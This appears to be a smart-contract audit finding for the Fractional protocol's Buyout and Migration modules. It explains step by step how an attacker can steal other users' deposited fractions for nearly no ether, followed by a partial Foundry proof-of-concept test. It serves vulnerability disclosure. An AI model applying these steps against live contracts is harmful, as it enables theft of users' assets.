 <https://github.com/code-423n4/2022-07-fractional/blob/8f2697ae727c60c93ea47276f8fa128369abfe51/src/modules/Buyout.sol#L73>

### Impact

When buyout starts, it takes all fractions owned by proposer. This means that when `Migration` contract starts a buyout, it takes all fractions it has, not just the fractions from the proposal. This is easily exploitable by anyone.

Stealing fractions scenario:

1.  Bob starts a proposal, deposits `3000` fractions
2.  Alice immediately starts another proposal with `targetPrice = 0`, deposits `0 fractions` and minimal ether (`value: 1`, which is `10^-18 ether`)
3.  Since price is larger than targetPrice, Alice immediately commits the proposal
4.  Buyout is started, but instead of `0 fractions` it has `3000 fractions` from bob, because starting buyout took all `Migration`'s fractions.
5.  Alice immediately buys `3000 fractions` from buyout for free (`0 ether`).
6.  At this point Alice has successfully stolen all deposited fractions.

### Proof of Concept

Add this code to test/Migration.t.sol

    function testPanprogBugH4() public {
    	initializeMigration(alice, bob, 10000, 10000, true);

    	(nftReceiverSelectors, nftReceiverPlugins) = initializeNFTReceiver();
    	// Migrate to a vault with no permissions (just to test out migration)
    	address[] memory newModules = new address[](2);

    	newModules[0] = migration;
    	newModules[1] = modules[1];

    	// Bob makes the proposal
    	bob.migrationModule.propose(
    		vault,
    		newModules,
    		nftReceiverPlugins,
    		nftReceiverSelectors,
    		TOTAL_SUPPLY * 2,
    		10 ether
    	);
    	// Bob joins the proposal with 3000 fractions
    	bob.migrationModule.join{value: 1 ether}(vault, 1, 3000);

    	// Alice starts a competing proposal (we use bob's data for simplicity)
    	alice.migrationModule.propose(
    		vault,
    		newModules,
    		nftReceiverPlugins,
    		nftReceiverSelectors,
    		TOTAL_SUPPLY * 10,
    		0 ether
    	);

